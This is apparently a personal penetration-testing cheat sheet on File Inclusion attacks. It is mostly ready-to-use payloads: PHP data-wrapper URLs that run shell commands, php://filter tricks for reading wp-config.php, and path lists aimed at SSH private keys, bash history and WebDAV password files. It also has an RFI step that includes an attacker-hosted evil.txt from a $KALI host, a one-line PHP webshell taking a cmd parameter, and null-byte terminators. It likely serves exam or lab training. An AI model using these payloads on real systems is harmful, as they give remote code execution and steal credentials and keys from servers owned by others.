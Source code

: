 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
https://blog.certcube.com/detailed-cheatsheet-lfi-rce-websheels/
https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html

#### LFI
Also try [[5_Contaminating Log Files]]

#### LFISuite - works with cookies!
```bash - kali
git clone https://github.com/D35m0nd142/LFISuite && cd LFISuite
```

```bash - kali
python lfisuite.py
```

Windows wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Windows-files.txt
```

Linux wordlist:
```bash - kali
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/Intruders/Linux-files.txt
```

#### PHP Wrappers

```bash
http://$TARGET/menu.php?file=data:text/plain,hello world
```

```bash
http://$TARGET/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```

[[rlwrap]]

[[1._Reverse Shells (WIN)#MSFVenom]]
[[4._File Transfers]]
[[0._PHP_Webshells#PHP]]

---
#### Apache default config file location <<<<<<<<<<<
```
/etc/apache2/sites-available/000-default.conf
```

```
/etc/apache2/sites-enabled/000-default.conf
```

Can you download the source code?  Then just find / grep for password file locations!

==TRY TO GET /home/USER/.ssh/id_rsa==
```
/home/user/.ssh/authorized_keys
```

```
/home/user/.ssh/id_rsa
```

```
/home/user/.ssh/id_rsa.pub
```

```
/home/user/.bash_history
```

```
/var/www/html/wp-config.php
```

#### Webdav creds
```
/var/www/html/webdav/passwd.dav
```

#### Wordpress config.php

Windows location:
```bash - kali
..\..\..\..\..\..\xampp\htdocs\blog\wp-config.php
```

```bash - kali
..\..\..\..\..\..\var\www\html\wordpress\wp-config.php
```

#### PHP  base64 convertor
```bash - kali
?page=php://filter/convert.base64-encode/resource=/../../../../../../../../../../var/www/html/wordpress/wp-config.php
```

#### RFI
==Remember for RFI, the file has to be txt!==

WWOLF:

[[0._PHP_Webshells#wwolf]]

Save as webshell.txt

```
http://$TARGET/image.php?img=http://$KALI/webshell.txt
```

![[Pasted image 20220329093728.png]]

evil.txt:
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```
http://$TARGET/menu.php?file=http://$KALI/evil.txt&cmd=ipconfig
```

#### Terminators
Null byte:
```
%00
```

```
?
```

![[Pasted image 20220506120304.png]]

Just by adding a question mark on this example, we got our webshell to work.

![[Pasted image 20220506120325.png]]


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
